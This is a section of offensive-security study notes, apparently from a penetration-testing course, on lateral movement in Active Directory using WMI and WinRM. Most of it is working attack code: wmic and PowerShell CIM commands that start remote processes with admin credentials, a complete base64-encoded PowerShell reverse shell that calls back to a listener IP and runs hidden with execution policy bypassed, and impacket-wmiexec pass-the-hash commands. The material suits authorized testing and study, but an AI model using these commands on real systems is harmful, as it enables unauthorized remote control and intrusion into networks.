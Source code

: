 
### 5.3.2 WMI and WinRM on Active Directory

WMI and WinRM both require plaintext credentials when executed from Windows (hashes are sufficient from Linux with impacket), and they both allow running commands as an administrator on a remote machine.

*Windows Management Instrumentation (WMI)* is capable of creating processes via the `Create` method from the `Win32_Process` class. It communicates through *Remote Procedure Calls (RPC)* over port 135 for remote access. In order to create a process on the remote target via WMI, we need (plaintext credentials of a member of the *Administrators* local group. The nice thing about WMI for lateral movement is that UAC remote access restrictions don't apply for domain users on domain-joined machines, so we can leverage full privileges.

Abusing WMI for lateral movement (from Windows):

```powershell
# create remote process with legacy tool: wmic
wmic /node:VICTIM_IP /user:LOCALADMIN /password:PASSWORD process call create "calc.exe"

# create remote process with PowerShell's WMI
# variable declaration
$username = 'LOCALADMIN';
$password = 'PASSWORD';
$victim = 'VICTIM'
$lhost = 'LISTEN_IP'
$lport = 443
$revshell = '$client=New-Object System.Net.Sockets.TCPClient("'+$lhost+'",'+$lport+');$stream = $client.GetStream();[byte[]]$bytes=0..65535|%{0};while(($i=$stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback=(iex $data 2>&1|Out-String );$sendback2=$sendback+"PS "+(pwd).Path+">";$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()';
$b64cmd = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($revshell));
$command = 'powershell -ep bypass -nop -w hidden -enc '+$b64cmd;
# requires PSCredential object to hold creds
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
# then create Common Information Model (CIM) session object with DCOM protocol
# (i.e. WMI session)
$options = New-CimSessionOption -Protocol DCOM
$session = New-CimSession -ComputerName $victim -Credential $credential -SessionOption $options
# Invoke Create method of Win32_Process
Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$command};
```

Using WMI from Kali, which allows pass-the-hash!

```sh
# spawns remote shell as admin user with pass-the-hash
impacket-wmiexec -hashes :NTHASH ADMINUSER@VICTIM_IP

# using password authentication
impacket-wmiexec 'ADMINUSER:PASSWORD@VICTIM_IP'
```

